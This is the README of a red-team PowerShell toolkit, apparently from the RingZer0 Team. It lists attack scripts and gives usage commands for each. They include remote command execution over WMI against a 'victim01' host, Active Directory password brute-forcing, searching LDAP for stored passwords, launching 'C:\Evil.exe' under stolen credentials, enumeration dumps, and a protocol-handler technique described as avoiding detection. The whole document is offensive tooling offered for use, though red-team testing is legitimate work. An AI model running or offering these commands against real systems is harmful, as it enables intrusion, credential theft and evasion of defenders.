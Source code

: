 # Red Team Powershell Scripts

```
Search-EventForUser.ps1: Powershell script that search through the Windows event logs for specific user(s)
Search-FullNameToSamAccount.ps1: Full name to SamAccountName
Search-UserPassword.ps1: Search LDAP for userPassword field
Remote-WmiExecute.ps1: Execute command remotely using WMI
Take-Screenshot.ps1: Take a screenshot (PNG)
Get-BrowserHomepage.ps1: Get browser homepage
Get-IEBookmarks.ps1: List all Internet Explorer bookmarks URLs
Invoke-ADPasswordBruteForce.ps1: Test users password
Utility.ps1: Contain several cmdlets
Run-As.ps1: Run a process as another user (credentials)
Get-ProcessList.ps1: List processes, owner and command line arguments
Remote-RegisterProtocolHandler.ps1: Use protocol handler to run your command to bypass some detection
```

# Search-EventForUser.ps1 Usage
```
module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser "MrUn1k0d3r"

module-import .\Search-EventForUser.ps1; "MrUn1k0d3r" | Search-EventForUser

module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser MrUn1k0d3r -ComputerName DC01

module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser MrUn1k0d3r -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true -Username DOMAIN\admin -Password "123456"
```
The -User parameter support single user or a list of users from pipeline

# Search-FullNameToSamAccount.ps1 Usage
```
module-import .\Search-FullNameToSamAccount.ps1; Search-FullNameToSamAccount -Filter *god*

module-import .\Search-FullNameToSamAccount.ps1; "god", "mom" | Search-FullNameToSamAccount
```

# Search-UserPassword.ps1 Usage
```
module-import .\Search-UserPassword.ps1; Search-UserPassword -Username *god*

module-import .\Search-UserPassword.ps1; "god", "mom" | Search-UserPassword
```

# Remote-WmiExecute.ps1 Usage
```
module-import .\Remote-WmiExecute.ps1; Remote-WmiExecute -ComputerName victim01 -Payload "cmd.exe /c whoami"
```

# Take-Screenshot.ps1 Usage
```
module-import .\Take-Screenshot.ps1; Take-Screenshot -Path C:\test.png
```

# Get-BrowserHomepage.ps1 Usage
```
module-import .\Get-BrowserHomepage.ps1; Get-BrowserHomepage
```

# Get-IEBookmarks.ps1 Usage
```
module-import .\Get-IEBookmarks.ps1; Get-IEBookmarks
```

# Invoke-ADPasswordBruteForce.ps1 Usage
```
module-import .\Invoke-ADPasswordBruteForce; Invoke-ADPasswordBruteForce -Username "mr.un1k0d3r" -Password "password"

module-import .\Invoke-ADPasswordBruteForce; "neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password"

module-import .\Invoke-ADPasswordBruteForce; "neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password" -Domain MATRIX
```

# Utility.ps1

Contain de following cmdlets
```
Search-EventForUser
EventForUserByDomain
Search-FullNameToSamAccount
Ldap-GetProperty
Search-UserPassword
Dump-UserEmail
Dump-Computers
Dump-UserName
```

# Run-As.ps1

```
module-import .\Run-As.ps1; Run-As -Username RingZer0\Mr.Un1k0d3r -Password "IShouldNotLeakThisPasswordOnTheInternet" -Process "C:\Evil.exe"
```

# COM-Utility.ps1

Contain de following cmdlets
```
Invoke-COM-ScheduleService
Invoke-COM-XMLHTTP
Invoke-COM-ShellBrowserWindow
Invoke-COM-WindowsScriptHost
Invoke-COM-ProcessChain 
Invoke-COM-ShellApplication
```

# Get-ProcessList.ps1 Usage

```
module-import .\Get-ProcessList.ps1; Get-ProcessList
```

# Remote-RegisterProtocolHandler.ps1 Usage

This cmdlet create a protocol handler that will call your payload. The idea is to avoid detection since the command that will be execute will look like the following one:

`explorer ms-browse://`

Where `ms-browser` is the custom handler you registered and will execute your command

```
module-import .\Remote-RegisterProtocolHandler.ps1; Remote-RegisterProtocolHandler -ComputerName host -Payload "command to run"
module-import .\Remote-RegisterProtocolHandler.ps1; Remote-RegisterProtocolHandler -ComputerName host -Payload "command to run" -Handler ms-handler-name 
```

# Todo

1. Take-Screenshot.ps1:
  * Handle multiple screens

# Credit
Mr.Un1k0d3r RingZer0 Team

Tazz0 RingZer0 Team
